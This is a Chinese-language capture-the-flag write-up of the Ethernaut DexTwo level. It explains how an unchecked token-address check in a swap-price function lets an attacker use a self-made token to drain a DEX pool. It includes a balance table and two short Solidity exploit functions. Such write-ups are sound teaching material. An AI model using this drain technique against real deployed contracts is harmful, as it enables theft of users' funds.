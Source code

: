 # DexTwo

## Reference
[DexTwo](https://ethernaut.openzeppelin.com/level/23)

[DexTwo.sol](https://github.com/yuhuajing/ethernaut-book/blob/main/src/23-DexTwo/DexTwo.sol)

## 目标
1. 玩家持有`TokenA，TokenB`各10个
2. Dex持有`TokenA，TokenB`各100个
3. 榨干Dex池子中的 `TokenA` 或 `TokenB`

## 分析
### price
```solidity
    function getSwapPrice(
    address from,
    address to,
    uint256 amount
) public view returns (uint256) {
    return ((amount * IERC20(to).balanceOf(address(this))) /
        IERC20(from).balanceOf(address(this)));
}
```
1. 在兑换Token时，通过 from/to 地址的Token数量锚定价格
2. from/to 地址不可控
 
   | playerTokenA | playerTokenB | playerTokenC | DexTokenA | DexTokenB | DexTokenC |
   |--------------|--------------|--------------|-----------|-----------|-----------|
   | 10           | 10           | 300          | 100       | 100       | 100       |
   | 110          | 10           | 200          | 0         | 100       | 200       |
   | 110          | 110          | 0            | 0         | 0         | 300       |
3. 按照上述兑换表格，最后会清空 `Dex` 池子中的 `TokenA`，攻击者的 `(TokenA,TokenB)` 的余额从(10,10)更新为(110，110)
4. 攻击swap1: 通过TokenC 兑换 TokenA
```solidity
    function swap1() public {
        dex.swap(address(tokenC), address(tokenA), 100);
    }
```
5. 攻击swap2: 通过TokenC 兑换 TokenB
```solidity
    function swap2() public {
        dex.swap(address(tokenC), address(tokenB), 200);
    }
```
